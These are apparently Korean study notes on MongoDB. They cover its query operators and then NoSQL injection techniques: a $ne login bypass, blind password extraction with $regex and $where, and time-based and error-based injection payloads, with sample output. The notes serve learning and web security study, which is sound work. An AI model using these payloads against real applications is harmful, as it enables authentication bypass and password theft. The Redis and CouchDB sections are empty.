 # NoSQL

## MongoDB
### 특징
1. 스키마가 존재하지 않아 각 테이블에 특별한 정의를 하지 않아도 됨
2. JSON 형식으로 쿼리문 작성 가능
3. _id필드가 기본키 역할을 함
### vs MySQL
```sql
SELECT * FROM inventory WHERE status = "A" and qty < 30;
```
```MongoDB
db.inventory.find( { $and: [ { status: "A" }, { qty: { $lt: 30 } } ] } )
```
### 연산자
#### Comparsion
- $eq :지정된 값과 같은 값을 찾습니다. (equal)
- $gt : 지정된 값보다 큰 값을 찾습니다. (greater than)
- $gte : 지정된 값보다 크거나 같은 값을 찾습니다. (greater than equal)
- $in : 배열 안의 값들과 일치하는 값을 찾습니다. (in)
- $lt : 지정된 값보다 작은 값을 찾습니다. (less than)
- $lte : 지정된 값보다 작거나 같은 값을 찾습니다. (less than equal)
- $ne : 지정된 값과 같지 않은 값을 찾습니다. (not equal)
- $nin : 배열 안의 값들과 일치하지 않는 값을 찾습니다. (not in)

#### Logical
- $and : 논리적 AND, 각각의 쿼리를 모두 만족하는 문서가 반환됩니다.
- $not : 쿼리 식의 효과를 반전시킵니다. 쿼리 식과 일치하지 않는 문서를 반환합니다.
- $nor : 논리적 NOR, 각각의 쿼리를 모두 만족하지 않는 문서가 반환됩니다.
- $or : 논리적 OR, 각각의 쿼리 중 하나 이상 만족하는 문서가 반환됩니다.

#### Element
- $exists : 지정된 필드가 있는 문서를 찾습니다.
- $type : 지정된 필드가 지정된 유형인 문서를 선택합니다.

#### Evaluation
- $expr : 쿼리 언어 내에서 집계 식을 사용할 수 있습니다.
- $jsonSchema : 주어진 JSON 스키마에 대해 문서를 검증합니다.
- $mod : 필드 값에 대해 mod 연산을 수행하고 지정된 결과를 가진 문서를 선택합니다.
- $regex : 지정한 정규식과 일치하는 문서를 선택합니다.
- $text : 지정한 텍스트를 검색합니다.
- $where : 지정한 자바스크립트 식을 만족하는 문서와 일치합니다.

### 연산자를 이용한 공격 예시
```
http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
=> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
```

### Blind Injection
$regex와 $where를 통해 Blind Injection 수행
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})

### where 조건 사용
$where을 통해 자바스크립트 식과 함께 데이터 비교. 단 필드 안에서는 사용할 수 없음. <br/>
> db.user.find({$where:"return 1==1"})
> { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
> db.user.find({uid:{$where:"return 1==1"}})
> error: {
>	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
>	"code" : 17287
> }

### Blind Injection
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})

> example
> 1. 길이 찾기
> {"uid" : "admin", "upw" : {"$regex" : ".{5}"}}
> 2. 비밀번호 추출하기
> {"uid": "admin", "upw": {"$regex":"^a"}}
> {"uid": "admin", "upw": {"$regex":"^aa"}}
> {"uid": "admin", "upw": {"$regex":"^ab"}}

### Time Based Injection
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`}); 이런 코드로 조회하는 경우
> /?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
> /?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
> /?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1

### Error Based Injection
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음


## Redis

## CouchDB